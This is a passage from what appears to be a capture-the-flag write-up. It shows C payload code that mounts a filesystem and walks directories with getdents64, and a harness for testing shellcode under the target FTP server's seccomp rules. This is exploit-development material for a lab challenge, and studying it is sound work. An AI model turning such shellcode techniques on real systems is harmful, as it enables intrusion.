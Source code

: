 ```c
}

void lsdir(const char *path) {
    char newpath[4096];
    char dents[32768];
    int dfd = open(path, O_DIRECTORY | O_RDONLY, 0);
    while(1) {
        int nbytes = getdents64(dfd, dents, 32768);
        if(nbytes <= 0)
            break;
        int ptr = 0;
        while(ptr < nbytes) {
            struct linux_dirent64 *s = (struct linux_dirent64 *)&dents[ptr];
            printf("ino=%d off=%d type=%d name=%s ", s->ino, s->off, s->type, s->name);
            sprintf(newpath, "%s/%s", path, s->name);
            showstat(newpath);
            ptr += s->reclen;
        }
    }
    close(dfd);
}

int main() {
    do_mount();

    lsdir("/mnt/goodfs");

    do_umount();

    exit_group(0);
}
```

For debugging, I created a "replacement" for the FTP server binary which directly runs shellcode with the same seccomp restrictions and FD numbers as the real server, meaning that I could iterate on my shellcode without going through the whole FTP server exploit every time. I inserted this program into the initramfs and started it from a modified `init` script ([`sc_runner.c`](files/stage5/sc_runner.c)):

```c
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/mman.h>

void setup() {
  char *hsm_path = getenv("HSM_DEVICE");
  if(!hsm_path) {
    fprintf(stderr,"no hsm\n");
    exit(1);
  }
  int serial_port = open(hsm_path, 2);
  scmp_filter_ctx ctx = seccomp_init(0);
  seccomp_rule_add(ctx,0x7fff0000,3,0);
  seccomp_rule_add(ctx,0x7fff0000,1,0);
  seccomp_rule_add(ctx,0x7fff0000,5,0);
  seccomp_rule_add(ctx,0x7fff0000,0,0);
  seccomp_rule_add(ctx,0x7fff0000,8,0);
  seccomp_rule_add(ctx,0x7fff0000,0x29,0);
  seccomp_rule_add(ctx,0x7fff0000,0x36,0);
```